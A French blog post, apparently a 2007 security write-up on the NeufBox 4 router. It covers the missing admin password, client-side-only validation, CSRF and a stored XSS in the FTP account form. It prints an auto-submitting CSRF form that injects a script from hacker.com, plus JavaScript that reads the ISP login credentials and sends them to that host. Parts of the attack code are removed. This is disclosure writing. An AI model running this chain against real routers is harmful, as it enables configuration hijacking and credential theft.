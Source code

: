 ```yaml
---
title: "La sécurité de la NeufBox 4"
tags: [vulnérabilité]
---
```


**NB: Cet article date de septembre 2007. La sécurité de la NeufBox s'est fortement amélioré depuis et l'accès à l'interface nécessite un mot de passe.**  

![NeufBox 4](/assets/img/neufbox4.jpg)

Je me suis intéressé à la sécurité de la NeufBox 4 ces derniers temps, je vous fais part de mes découvertes.  

## Welcome  

Une fois le modem/routeur branché et configuré (saisie des identifiants de connexion), différents voyants s'allument en fonction des services auxquels vous avez souscrit et des périphériques que vous avez branché. Mais force est de constater que par défaut le voyant WiFi s'allume.  

Le WiFi est actif et un hotspot accueille gentiment les *utilisateurs de la communauté Neuf et FON*. Il y a fort à parier que cet accès intéressera aussi certains *"pirates de l'air"*.  

Pour désactiver tout ça, il faut se rendre sur l'interface d'administration (`192.168.1.1`), dans la section *Wifi* puis *Hotspot* et *Wifi* (si vos PCs ne sont pas reliés par WiFi).  
Si vous voulez voir à quoi ressemble l'interface d'administration de la NeufBox 4, vous pouvez visiter le site <http://antoniop.free.fr/nb4/> qui a recréé l'interface.  

## Pas de mot de passe

Ce qui surprend le plus en accédant à l'interface web de la NeufBox, c'est l'absence d'une demande d'identifiants. Les modems ont généralement un compte par défaut du type admin/admin ou admin/password. Des mots de passe par défaut que l'on devine facilement, mais avec la possibilité d'en changer.  

Cette absence de protection est très gênante, dans un environnement multi-utilisateurs chacun pouvant jouer avec les règles NAT pour y faire passer son MSN et faire tourner son client P2P au nez et à la barbe de l'administrateur, même si on voit difficilement une entreprise utiliser ce type d'équipement (mais on ne sait jamais...)  

Est-il possible d'activer une protection par mot de passe ? Une [page cachée](http://antoniop.free.fr/nb4/0_2.htm) dans l'interface laisse supposer que oui. En fait, c'est possible [techniquement parlant. Il faut que les équipes de Neuf le mettent en place, mais ils peuvent le faire](http://www.n9ws.com/forum/viewtopic.php?t=43168). (je trouve ça fort, on dirait du [Pierre Dac](http://www.youtube.com/watch?v=B71_p-Lvn8s) ou du [Laspales/Chevallier](http://www.dailymotion.com/relevance/search/laspales/video/x2huio_chevallier-et-laspales-le-train-pou_fun)... c'est vous qui voyez !)  

## Cross-Site Request Forgery

L'absence de mot de passe à saisir pour accéder à la partie administration fait de la NeufBox 4, une cible de choix pour les attaques par [Cross-site request forgery]({% link _posts/2011-01-08-Les-attaques-par-Cross-Site-Request-Forgery.md %}).  

À l'aide d'une page web malicieuse, il est possible de vous faire changer la configuration de votre modem sans que vous ne vous en rendiez compte.  

Il est alors possible de réactiver un hotspot désactivé, changer la clé et le type de chiffrement WiFi ou encore ajouter des entrées NAT pour accéder à des services potentiellement vulnérables sur votre machine (le DHCP activé par défaut donne toujours les mêmes adresses).  

## Des protections Javascript seulement

On peut entrer à peu près tout ce qu'on le veut dans l'interface web de la NB4. Les seules protections se basent sur le HTML et le Javascript (donc côté client).  

Par exemple pour rajouter des règles NAT, il faut saisir l'adresse IP répartie en 4 cases de texte (voir [ici](http://antoniop.free.fr/nb4/2_5.htm)). Les trois premières cases sont protégées en écriture par HTML (attribut `readonly="readonly"`) mais en modifiant la requête HTTP (par exemple à l'aide de l'extension Firefox [TamperData](http://tamperdata.mozdev.org/)) on peut y mettre n'importe quelle adresse IP.  

Heureusement dans le cas du NAT ça finit par bloquer quelque part (sans doute lors du passage en règle iptables) sans quoi il aurait été possible de transformer les NeufBox en proxies.  

## XSS et lecture de données

La NB4 est victime de quelques failles XSS. La plus simple à exploiter est sans doute celle qui touche [le service FTP](http://antoniop.free.fr/nb4/5_1.htm), plus précisément l'ajout d'un compte utilisateur. La encore les seules protections sont le HTML (champs de taille limités) et le Javascript (vérification des caractères utilisés).  

L'injection de Javascript dans le champ *"Nom d'utilisateur"* ou *"Mot de passe"* résulte en un XSS permanent.  

Avec le CSRF (Cross-Site Request Forgery), on ne peut qu'envoyer des données vers la NeufBox mais on ne peut pas en lire. Avec [AJAX](http://fr.wikipedia.org/wiki/Asynchronous_JavaScript_and_XML) il est possible d'envoyer des requêtes et de lire le résultat, mais les restrictions d'AJAX empêchent la communication d'un domaine à un autre.  

La faille XSS permet de bypasser cette protection puisque le Javascript est injecté dans la page et exécuté comme s'il provenait de la NeufBox elle-même.  

Je me suis attardé sur cette faille et je suis parvenu à créer un code qui récupère les identifiants de connexion de la NeufBox (ceux-ci sont enregistrés et restent présent dans le code [de la page WAN](http://antoniop.free.fr/nb4/2_1.htm)) pour les soumettre ensuite vers un site extérieur.  

Je ne vous donne pas l'intégralité du code pour des raisons évidentes, mais n'importe quel développeur AJAX est en mesure de le faire (en une après-midi c'était torché, sachant que je n'avais jamais vraiment fait de l'AJAX auparavant, juste quelques codes de test).  

On a un code qui se charge du CSRF, c'est seulement un formulaire qui s'*"auto-submit"* :  

```html
<form method="post" action="http://192.168.1.1/5_1" id="inject">
<input type="hidden" name="ftpd_user" value="<script src='http://hacker.com/payload.js'></script>"/>
<input type="hidden" name="ftpd_password" value="hacked"/>
<input type="hidden" name="action" value="add" />
<input type="hidden" name="row" value="1" />
</form>
<script language="Javascript">
document.getElementById("inject").submit();
</script>
```

Le script injecté (payload.js) effectue les opérations suivantes :  

* Envoie une requête pour accéder à la page WAN
* Extrait les informations de connexion
* Charge dynamiquement dans la structure DOM un script pour l'envoi des identifiants
* Supprime l'entrée ajoutée dans la page du service FTP où se trouve le code Javascript

```js
var req = false;
var obj=null;
if(window.XMLHttpRequest)
{
  req=new XMLHttpRequest();
}
else if(window.ActiveXObject)
{
  req=new ActiveXObject("Microsoft.XMLHTTP");
}
req.open("GET","/2_1");
req.onreadystatechange=function()
{
  if(req.readyState==4 && req.status==200)
  {
    // code retire : extraction des données d'indentification
    var script = document.createElement('script');
    script.src = "http://hacker.com/insert.php?login="+escape(login)+"&password="+escape(password);
    script.type = 'text/javascript';
    document.body.appendChild(script);

    if(window.XMLHttpRequest)
    {
      req=new XMLHttpRequest();
    }
    else if(window.ActiveXObject)
    {
      req=new ActiveXObject("Microsoft.XMLHTTP");
    }
    // code retire : suppression des traces de l'attaque
  }
}
req.send(null);
```

J'ai testé le script en local et il a fonctionné avec succès sous Internet Explorer 7, Opera 9.50 (dernière pré-release de Kestrel en date) et Firefox 2.0.0.5.  

Par contre, ne me demandez pas à quoi peut bien servir de récupérer les infos de connexion... puisqu'il faut un abonnement (donc il faut forcément payer) pour les utiliser. Mais l'objectif était seulement de montrer les possibilités données par le mélange CSRF et XSS.  

Tout ça aurait pu être évité si un mot de passe était demandé par l'interface. On peut bien-sûr envoyer des informations d'authentification par AJAX (paramètres supplémentaires de `open()`) et dans un formulaire HTML (URL de la forme,<http://login:password@192.168.1.1/)> mais les navigateurs donnent un avertissement (cette forme d'URL a été massivement utilisée pour les attaques de phishing).  

Le mieux est d'avoir la possibilité de changer le mot de passe de l'interface, mais à l'heure actuelle rien n'est possible.  

Notez toutefois que l'utilisation de l'[extension NoScript](http://noscript.net/?ver=1.1.7.2&prev=#xss) sous Firefox permet de bloquer le CSRF.  

J'ai aussi testé l'injection de commandes Unix dans certains champs web, mais je n'ai rien trouvé de probant (je n'ai pas trop poussé non plus).  

Références :  

[W3C : XMLHttpRequest](http://www.xul.fr/XMLHttpRequest.html)  

[Using POST method in XMLHTTPRequest](http://www.openjs.com/articles/ajax_xmlhttp_using_post.php)  

[HTTP Authentication with HTML Forms](http://www.peej.co.uk/articles/http-auth-with-html-forms.html)  

[Cross-Domain Ajax Insecurity](http://shiflett.org/blog/2006/aug/cross-domain-ajax-insecurity)  

[MySpace Worm explanation](http://namb.la/popular/tech.html)

*Published January 10 2011 at 09:00*

